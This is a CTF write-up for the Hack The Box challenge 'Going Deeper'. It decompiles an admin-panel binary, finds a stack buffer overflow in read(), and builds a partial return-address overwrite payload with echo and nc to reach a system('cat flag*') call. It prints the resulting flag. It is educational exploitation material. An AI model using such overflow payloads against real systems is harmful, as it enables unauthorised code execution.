




# Going Deeper

## First Look



We are faced with a banner and a menu prompt.  Select (1) to disable the safety mechanisms or (2) to attempt to login.  We want to get in, so why even talk about (3)?  A follow up prompt is

## Analyzing the Program

We start by opening the program in Ghidra and utilizing its analysis in an attempt to get a basic understanding of the program.  Starting with the function in the symbol tree, we immediately see some possibly useful names (highlighted in the below image).



Let's start with main of course.  We will use Ghidra's approximated decompilation where it's useful.

```c
undefined8 main(void)
{
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Simple.  Setup and banner are not interesting, so let's go to the admin_panel.

```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 != 0xdeadbeef) || (param_2 != 0x1337c0de)) || (param_3 != 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
      goto LAB_00400b38;
    }
  }
  printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
  system("cat flag*");
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

Scanning through the code, we see our initial menu option being read into `local_10`, followed by some control flow logic to determine which selection was made.  Finally, we get to provide our second input, which is read into `local_38` and compared against a particular string value.

```c
read(0,local_38,0x39);
...
iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
```

As a side note, it looks like menu options 2 and 3 both fall to the same call to `read()`.

## Next Steps

Let's take stock of what we know.

- We read 0x39 (57) bytes into `local_38` and compared 0x34 (52) bytes of it against the string `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` with a length of 51 plus a null byte.

  - A quick check on the declation of `local_38` reveals that only 40 bytes were allocated!!  Looks like a likely candidate for a stack buffer overflow:

```c
    char local_38 [40];
```

- At first glance, it looks like we can just paste in the secret string, but we are disappointed to find that the call to `read()` happily gobbles our newline character.

  - I won't go into detail, but I'll provide a second payload later that uses a null byte to skip the need for the buffer overflow we're seeing hints of.

## Crafting a payload

Let's start with the classic payload of As.  As we observed, we can provide up to 57 bytes on our second prompt, so let's see what happens.  I'm admittedly not the best with gdb yet, so I'll put my payload in a file for each file redirection:

`echo -n 1AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >payload`

Note the 1 at the start is for our initial menu selection.

Set our breakpoint:


Let's take a look at our stack after reading in the payload:



Wait...

I only count 27 As.  There should be 57, but we seem to be short by 30.  What happened?  

## Going... Deeper

If we look back at our code for the `admin_panel` function, we notice that our menu option is read in using a function called `read_num()`.  Now, I'm not familiar with every function call in libc, but this is one I'm not familiar with.  Let's take a look:

```c
void read_num(void)
{
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  read(0,&local_28,0x1f);
  strtoul((char *)&local_28,(char **)0x0,0);
  return;
}
```

Aha!  The function includes another call to `read()` with 0x1f (31) bytes.  Only the valid digits at the start of the data are kept by strtoul and the rest are just discard.  So `read_num()` read our 1 and thirty of our As, that latter of which just got ignored.

Let's update our payload to have 30 more characters in it and see what happens.

`echo -n '1BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' >payload`

Stack output from gdb:


No sign of any of the 30 Bs we added to the payload, and we can see all 57 As!  Notice the underlined byte.  This is the final byte of the return address for `admin_panel`! (I leave it to the reader as a basic buffer overflow exercise to verify that this is the function's return address)

Some inspection of the program's address space reveals that most of our program code falls between `0x400b00` and `0x400bff`.  Crucially, the call to print the flag is here:

```c
0x400b12 <admin_panel+297>:  lea    rdi,[rip+0xaa5]        # 0x4015be
0x400b19 <admin_panel+304>:  call   0x400700 <system@plt>
```

It looks like we can modify out payload to have 0x12 as our final byte and print our flag.  Let's try.

`echo -ne '1BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x12' >payload`

Run our program with the payload against the challenge docker:

`nc 159.65.58.144 30131 <payload`



And there you have it!

`HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}`
